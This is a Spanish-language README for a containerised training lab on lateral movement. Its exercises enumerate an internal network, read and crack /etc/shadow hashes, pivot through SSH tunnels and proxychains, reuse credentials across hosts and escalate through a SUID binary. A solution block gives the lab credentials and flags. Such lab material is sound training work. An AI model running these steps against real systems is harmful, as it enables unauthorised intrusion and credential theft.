


# 🔄 Lab lateral-01: Movimiento Lateral

> Navega entre sistemas de una red comprometida usando técnicas de movimiento lateral como Pass-the-Hash, PsExec, WinRM y SSH tunneling.

## 📊 Diagrama del Escenario



## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:

- [ ] Extraer hashes de usuarios en Linux
- [ ] Usar Pass-the-Hash para autenticación
- [ ] Pivotear entre hosts usando SSH tunneling
- [ ] Ejecutar comandos remotos con PsExec-like tools
- [ ] Escalar de lowuser a root en múltiples hosts
- [ ] Mapear la red interna desde un host comprometido

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 60 minutos |
| **XP en juego** | 350 puntos |
| **Herramientas** | ssh, ssh-keygen, chisel, socat, nmap |
| **Flags** | 6 |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno
cd labs/intermedio/lateral-01
docker compose up -d

# Obtener shell en Kali
docker compose exec kali bash
```

## 📋 Ejercicios

### Ejercicio 1: Enumeración de Red Interna (40 XP)

**Objetivo:** Descubrir hosts y servicios desde el Jump Box comprometido.

```bash
# Conectarse al jump box
ssh lowuser@10.0.6.10  # password: lowuser123

# Enumerar red interna
ip addr show
arp -a
nmap -sn 10.0.6.0/24

# Enumerar usuarios del sistema
cat /etc/passwd | grep -v nologin | grep -v false
cat /etc/shadow 2>/dev/null || sudo cat /etc/shadow

# Buscar credenciales
find / -name "*.conf" -o -name "*.env" -o -name "*.cfg" 2>/dev/null
cat /home/webuser/.bash_history
```

**Preguntas:**
1. ¿Qué hosts hay en la red? `[___]`
2. ¿Qué usuarios existen en el jump box? `[___]`
3. ¿Encontraste credenciales? `[___]`

**Flag:** `[___]`

---

### Ejercicio 2: Extracción de Hashes (50 XP)

**Objetivo:** Obtener hashes de usuarios para Pass-the-Hash.

```bash
# Extraer hashes de Linux
sudo cat /etc/shadow

# Formatear para crackear
awk -F: '$2 != "!" && $2 != "*" {print $1 ":" $2}' /etc/shadow > hashes.txt

# Crackear con john
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Para Pass-the-Hash en Linux, usar hash de la contraseña
openssl passwd -1 -salt xyz "lowuser123"
```

**Preguntas:**
1. ¿Cuántos hashes obtuviste? `[___]`
2. ¿Qué usuarios tienen hash crackeable? `[___]`
3. ¿Cuáles son las contraseñas? `[___]`

**Flag:** `[___]`

---

### Ejercicio 3: SSH Pivot (50 XP)

**Objetivo:** Usar el Jump Box como pivote para alcanzar otros hosts.

```bash
# SSH tunneling (-L: local port forwarding)
ssh -L 8080:10.0.6.20:80 lowuser@10.0.6.10

# Desde Kali, acceder a web server a través del tunnel
curl http://localhost:8080

# Dynamic proxy (SOCKS)
ssh -D 1080 lowuser@10.6.10

# Usar proxychains
proxychains nmap -sV 10.0.6.20
proxychains ssh webuser@10.0.6.20

# SSH jump host (-J)
ssh -J lowuser@10.0.6.10 webuser@10.0.6.20
```

**Preguntas:**
1. ¿Pudiste acceder al web server a través del tunnel? `[Sí/No]`
2. ¿Qué servicios encontraste en 10.0.6.20? `[___]`
3. ¿Qué tipo de tunneling usaste? `[___]`

**Flag:** `[___]`

---

### Ejercicio 4: Movimiento Lateral con Credenciales (60 XP)

**Objetivo:** Moverte entre hosts usando credenciales reutilizadas.

```bash
# Desde jump box, conectarse a web server
ssh webuser@10.0.6.20  # password: webuser123

# Desde web server, enumerar
id
cat /etc/passwd
find / -perm -4000 2>/dev/null
sudo -l

# Usar la misma contraseña en db server
ssh dbuser@10.0.6.30  # password: dbuser123

# Verificar acceso
whoami
hostname
cat /home/dbuser/flag.txt
```

**Preguntas:**
1. ¿Las credenciales se reutilizaron entre hosts? `[Sí/No]`
2. ¿Qué permisos tiene dbuser? `[___]`
3. ¿Qué información sensible encontraste? `[___]`

**Flag:** `[___]`

---

### Ejercicio 5: Escalada de Privilegios Lateral (60 XP)

**Objetivo:** Escalar a root en el DB Server para acceder a la flag final.

```bash
# Enumerar en db server
find / -perm -4000 2>/dev/null
cat /etc/crontab
ls -la /opt/
sudo -l

# Buscar credenciales de root
grep -r "password" /etc/ 2>/dev/null
cat /opt/db.conf
env | grep -i pass

# Escalar (ejemplo: SUID binary)
/usr/local/bin/db-admin

# Obtener root
whoami  # root
cat /root/flag.txt
```

**Flag:** `[___]`

---

### Ejercicio 6: Documentación de Ruta (40 XP)

**Objetivo:** Documentar la ruta completa de movimiento lateral.

Crea `lateral_movement_report.md`:

```markdown
# Reporte de Movimiento Lateral

## Topología de Red Descubierta
| Host | IP | Servicios | Usuarios |
|------|----|-----------|----------|
| Jump Box | 10.0.6.10 | SSH | lowuser |
| Web Server | 10.0.6.20 | SSH, HTTP | webuser |
| DB Server | 10.0.6.30 | SSH, MySQL | dbuser |

## Ruta de Movimiento
1. Kali → Jump Box (SSH + password)
2. Jump Box → Web Server (SSH + password reutilizada)
3. Web Server → DB Server (SSH + password reutilizada)
4. DB Server → Root (SUID binary)

## Credenciales Encontradas
- lowuser:lowuser123
- webuser:webuser123
- dbuser:dbuser123

## Flags Capturadas
- [___]

## Recomendaciones
- [___]
```

**Flag:** `[___]`

## 🔍 Flujo de Movimiento Lateral



## 🏁 Validación

```bash
./scripts/validate.sh
```

## 📝 Criterios de Éxito

| Ejercicio | Criterio | Puntos | Estado |
|-----------|----------|--------|--------|
| 1 | Red enumerada | 40 | ⬜ |
| 2 | Hashes extraídos | 50 | ⬜ |
| 3 | SSH pivot funcional | 50 | ⬜ |
| 4 | Movimiento entre hosts | 60 | ⬜ |
| 5 | Root obtenido | 60 | ⬜ |
| 6 | Reporte documentado | 40 | ⬜ |
| **Total** | | **350** | ⬜ |

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### Ruta completa
```
Kali → Jump Box (lowuser:lowuser123) → Web Server (webuser:webuser123) → DB Server (dbuser:dbuser123) → Root
```

### Privesc en DB Server
```
# SUID binary
/usr/local/bin/db-admin → root shell
```

### Flags
```
/home/dbuser/flag.txt: FLAG{l4t3r4l_m0v3m3nt_pwn3d}
/root/flag.txt: FLAG{r00t_4cc3ss_4ch13v3d}
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
